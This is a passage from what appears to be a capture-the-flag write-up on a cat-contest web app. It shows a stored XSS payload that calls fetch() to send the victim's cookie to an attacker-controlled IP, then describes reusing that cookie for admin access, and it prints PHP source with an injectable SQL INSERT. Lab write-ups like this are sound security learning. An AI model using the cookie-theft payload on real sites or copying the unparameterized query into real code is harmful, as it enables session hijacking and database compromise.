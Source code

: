 But I have to confirm that this variable is not present for any other validation purposes otherwise I would not be able to test this injection for those files ⤵️

![](Pasted%20image%2020250712112050.png)
_Only `contest.php` contains this input restricted validation string_

That means see the source code of `join.php` for any other restrictions or validation implementation.

![](Pasted%20image%2020250712112452.png)
_`join.php` Page only validates the input commands not for any injection validations_

This let me curious for trying many injection vulnerabilities and let's catch for its response.

```
<script>fetch('http://10.10.16.8/steal?cookie=' + btoa(document.cookie));</script>
```

![](Pasted%20image%2020250712112951.png)

Here is the full working of admin call and stealing the cookie from the site 🔻

![](xss2.gif)
_Full walkthrough of the xss cookie steal_

Now let's use this cookie to be an admin like this 🔻

![](admin_access.gif)
_Demonstration of Cookies on this site_

This way I got the admin panel enabled now I can use 3 options that is 🔻

![](Pasted%20image%2020250715102658.png)
_Three options_

Now Let's see the Accept Page and its source code 🔻

```bash
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```